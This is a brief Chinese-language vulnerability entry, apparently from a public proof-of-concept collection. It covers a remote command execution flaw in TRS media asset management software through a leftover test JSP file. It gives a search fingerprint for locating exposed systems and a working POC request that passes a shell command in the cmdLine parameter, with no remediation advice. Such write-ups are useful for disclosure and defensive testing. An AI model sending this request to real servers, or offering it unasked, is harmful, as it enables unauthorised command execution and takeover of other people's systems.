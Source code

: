 # 拓尔思 TRS testCommandExecutor.jsp 远程命令执行漏洞

# 拓尔思 TRS testCommandExecutor.jsp 远程命令执行漏洞

## 漏洞描述

拓尔思 TRS testCommandExecutor.jsp测试文件存在远程命令执行漏洞，当网站运维者未删除测试文件时，攻击者通过漏洞可以获取服务器权限

## 漏洞影响

```
拓尔思-TRS
```

## 网络测绘

```
"TRS媒资管理系统登录页面"
```

## 漏洞复现

主页面

![image-20230314084307993](images/image-20230314084307993.png)

验证POC

```
/mas/front/vod/main.do?method=newList&view=forward:/sysinfo/testCommandExecutor.jsp&cmdLine=dir&workDir=&pathEnv=&libPathEnv=
```

![image-20230314084331676](images/image-20230314084331676.png)

